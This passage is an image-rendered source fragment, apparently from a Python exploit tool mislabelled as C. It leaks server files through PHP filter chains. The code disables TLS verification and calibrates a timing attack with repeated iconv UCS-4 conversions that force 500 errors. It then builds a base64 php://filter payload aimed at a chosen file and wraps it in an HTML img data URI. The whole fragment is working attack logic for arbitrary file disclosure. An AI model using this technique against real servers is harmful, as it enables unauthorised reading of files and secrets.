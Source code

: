 ```c
            self.time_based_attack = False
        
    """
    Instantiates a requests session for optimization
    """
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False



    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32]*15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
    Used to parse the option parameter sent by the user
    """
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter: # Parse array elements
            
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) -1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
        payload = f"<img src='data:image/png;base64,{php_filter}'/>"
        # DEBUG print(php_filter)
```